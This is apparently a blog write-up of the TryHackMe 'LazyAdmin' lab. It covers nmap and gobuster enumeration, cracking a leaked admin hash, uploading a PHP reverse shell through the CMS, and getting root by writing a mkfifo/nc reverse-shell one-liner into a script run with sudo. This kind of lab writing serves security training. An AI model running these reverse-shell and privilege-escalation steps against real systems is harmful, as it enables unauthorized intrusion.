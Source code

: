 ```yaml
---
title: TryHackMe - LazyAdmin
author: Bonface
date: 2024-10-31 00:00:00 +0000
categories: [TryHackMe]
tags: [tryhackme, linux, nmap, privesc, ssh, http, gobuster ]
img_path: /assets/img/LazyAdmin
image:
    path: 0.jpeg
---
```


# LazyAdmin

Easy Linux machine to practice your skills.  

# Tasks

capture the user and root flag.  

# nmap

## ip `10.10.24.121`

## Command 
```sh
nmap -sV -sC -v 10.10.24.121
```
## Results
```sh
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 2048 49:7c:f7:41:10:43:73:da:2c:e6:38:95:86:f8:e0:f0 (RSA)
| 256 2f:d7:c4:4c:e8:1b:5a:90:44:df:c0:63:8c:72:ae:55 (ECDSA)
|_ 256 61:84:62:27:c6:c3:29:17:dd:27:45:9e:29:cb:90:5e (ED25519)
80/tcp open http Apache httpd 2.4.18 ((Ubuntu))
| http-methods:
|_ Supported Methods: GET HEAD POST OPTIONS
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

# http_80

## ip `10.10.24.121`


To Do List
----------------------------------------------
- View the site
- source code
- Robots.txt
- gobuster



##  site

![](/assets/img/LazyAdmin/1.png)


# gobuster

```sh
	gobuster dir -u http://10.10.24.121 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

## Results

```sh
/content
```


## /content
![](/assets/img/LazyAdmin/2.png)

Nothing much so i run another gobuster on the directory hoping to find sub-directories  



## gobuster /content

## Command 
```sh
 gobuster dir -u http://10.10.10.216/content -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt

```
![](/assets/img/LazyAdmin/3.png)

```sh
/inc
```
![](/assets/img/LazyAdmin/4.png)

![](/assets/img/LazyAdmin/5.png)


![](/assets/img/LazyAdmin/6.png)

admin = manager  
password = 42f749ade7f9e195bf475f37a44cafcb\\  
Decoding the password = Password123  

![](/assets/img/LazyAdmin/7.png)

log in using the details.  
![](/assets/img/LazyAdmin/8.png)

Let's look around searching for an exploit vector.  
![](/assets/img/LazyAdmin/9.png)

Get a reverse shell script *php change the ip then copy paste it.  
Now go to 10.10.10.216/content/inc/ads/shell.php but first run nc on your machine
```sh
nc -nlvp 1234
```

*Machine just expired let me start it again Damn all that progress!!! 

## ip `10.10.66.184`

## Commands
will have to start all over again :
1. 10.10.66.184/content/as
2. user = manager
3. password = Password123
4. Upload the reverse shell on ads management room
5. nc -nvlp 1234
6. `http://10.10.66.184/content/inc/ads/shell.php`

**now we have a shell !!!**

![](/assets/img/LazyAdmin/10.png)  

user flag = THM{...}  
![](/assets/img/LazyAdmin/11.png)



# priv esc

First lets stablelize the shell.  
```sh
python3 -c'importpty;pty.spawn("/bin/bash")'
export TERM=xterm
```

![](/assets/img/LazyAdmin/12.png)  
Let's first look at the backup.pl   
![](/assets/img/LazyAdmin/13.png)  

Runs the command with root previlage and we can read and execute it.  
The script runs another script  
![](/assets/img/LazyAdmin/14.png)


```sh
echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.8.172.59 5554 >/tmp/f' >/etc/copy.sh
```
Run nc 
```sh
nc -nvlp 5554
```

On the machine run 
```sh
sudo /usr/bin/perl /home/itguy/backup.pl
```
Root flag = THM{...}  
![](/assets/img/LazyAdmin/15.png)

